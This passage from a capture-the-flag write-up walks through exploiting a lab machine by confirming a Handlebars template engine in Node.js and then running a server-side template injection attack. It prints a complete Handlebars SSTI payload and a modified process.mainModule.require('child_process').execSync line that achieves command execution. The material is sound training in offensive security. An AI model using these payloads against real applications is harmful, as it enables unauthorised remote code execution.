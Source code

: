    Then we see the following error, and we can see the templating engine used within Node.JS is **handlebars**

    ![](../assets/img/htb-starting-point/75.png)

3. After confirming the templating engine, we can find payload for it, get reference from https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#handlebars-nodejs

   ```
   {{#with "s" as |string|}}
     {{#with "e"}}
       {{#with split as |conslist|}}
         {{this.pop}}
         {{this.push (lookup string.sub "constructor")}}
         {{this.pop}}
         {{#with string.split as |codelist|}}
           {{this.pop}}
           {{this.push "return require('child_process').exec('whoami');"}}
           {{this.pop}}
           {{#each conslist}}
             {{#with (string.sub.apply 0 codelist)}}
               {{this}}
             {{/with}}
           {{/each}}
         {{/with}}
       {{/with}}
     {{/with}}
   {{/with}}
   ```
   
4. If run with Burp, we would change the payload into URL encoded, if run directly into the input box, just input the payload

5. However, we cannot directly use require to load `child_process` modules, error is coming out. We will try another way.

6. We discovered that **process** with the **mainModule** property could be used to run module, now modify our payload

   ```
   "return process.mainModule.require('child_process').execSync('whoami');"
   ```

7. Now input the payload into the input box, we command execution successfully, the flag is in **/root/flag.txt**
